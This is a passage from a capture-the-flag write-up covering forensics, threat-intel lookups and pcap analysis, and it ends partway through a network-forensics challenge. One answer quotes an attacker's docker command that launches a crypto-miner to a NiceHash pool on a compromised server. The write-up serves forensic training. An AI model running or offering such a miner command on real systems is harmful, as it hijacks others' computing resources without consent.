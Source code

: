 ![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/2020-06-26-11-06-33.png)

As we see, the attacker try to run a crypto-miner in the compromised server.

Flag: `sudo docker service create --name miner alexellis2/cpu-opt:2018-1-2 ./cpuminer -a hodl -o stratum+tcp://hodl.eu.nicehash.com:3352 -u 35THoNiL8vNCESSq5ZPmZYTHT1GymWvUAx.autopsit.org`


# Threat Intel

### Challenge 1
![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/Bonus.png)

Now we already know the IP (45.62.224.162). Let's use online tools to investigate the hoster name and it's country. I'll this [website](https://check-host.net/) to define the hosting and the country.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/2020-06-26-11-14-48.png)

Flag: `cloudatcost/canada`

# Network Forensic

### Challenge 1

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Network%20forensics/1.png)

Run the pcap file in Wireshark and we can see the IP.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Network%20forensics/2020-06-26-11-22-46.png)

Flag: `172.16.100.223`


### Challenge 2

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Network%20forensics/2.png)

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Network%20forensics/2020-06-26-11-22-46.png)

Flag: `172.16.100.1`


### Challenge 3

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Network%20forensics/3.png)

The organizer ask us about the exploit that have been used that captured in this traffic.

I first investigate the pcap by running `Follow TCP streams` on the 2nd packet.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Network%20forensics/2020-06-26-11-29-25.png)

